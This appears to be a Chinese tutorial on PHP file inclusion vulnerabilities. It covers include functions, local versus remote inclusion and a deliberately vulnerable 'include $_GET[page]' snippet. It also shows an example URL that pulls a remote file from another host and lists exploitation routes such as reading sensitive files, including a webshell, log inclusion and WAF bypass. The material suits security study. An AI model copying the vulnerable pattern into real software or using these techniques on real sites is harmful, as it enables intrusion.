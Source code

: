 #### 1，基本概念
后端语言通过一些包含的函数(ps.例如include() )来包含一些可重复使用的函数的单个文件，文件包含分为本地包含，远程包含。

> 具体的话可以在dvwa中试一试

#### 2,php提供了以下的包含函数
> include(),require(),include_once(),require_once()区别为include没包含只会警告不会报错，后两者只会包含一次。


#### 3,实例如下
例如:
```
phpinfo.txt文件内容如下：
<?php
    phpinfo();
?>
在Index.php中包含phpinfo.txt,代码如下：
<?php
    include("phpinfo.txt");
?>
```
这时在浏览器中访问index.php，就会执行`phpinfo.txt`，中的内容。无论是任何的扩展名，只要是正确的php语法规范都会被php解析。如果是非php语法规范的文件时，会暴露其源码

##### 3.1远程包含漏洞
    
如果使用php远程包含漏洞的话，需要主动开启远程包含功能选项(PHP默认关闭远程包含功能)，开启远程包含功能余姚在php.ini中配置文件中修改，选项如下：

    ```
    allow_url_include = off
    ```
    
远程访问简单示例如下：

    ```
    URL:http://www.xxser.com/index.php?page=http://www.jj.com/php.txt
    ```

### 4,具体示例如下

在index.php代码如下：
```
if ($_GET[page]) {
    include $_GET[page];
} else {
    include "home.php";
}
```
php前端代码如下：
```
<a href="Index.php?page=main.php">主页</>
<a href="Index.php?page=news.php">新闻</>
<a href="Index.php?page=down.php">下载</>
```
程序逻辑如下：
① 提交URL然后再Index.php中取得page的参数

② 判断$_GET[page]是否为空，不为空的话就包含该文件

③ 若$_GET[page]为空的话，就使用else来包含home.php文件

攻击者不会按照程序的逻辑去访问，攻击者可能访问如下网站，例如：
`http://www.xxer.com/index.php?page=xxx.php`

这样的话如果没有包含到这个xxx.php文件的话程序就会报错，暴露出文件的绝对路径

### 5,文件包含的利用如下
如果文件存在且有相应的权限的话，就可以读出文件的内容。

（1） 读取敏感文件
    这里不细讲敏感文件的路径
    
（2） 远程包含shell
这里的话就不详讲了，不过可以上传木马，一句话木马什么的

（3） 配合本地上传文件漏洞使用

这里不细讲

（4） 使用PHP协议

这里不细讲

（5） 包含apche日志文件
    
（6） 截断包含

（7） 绕过WAF防火墙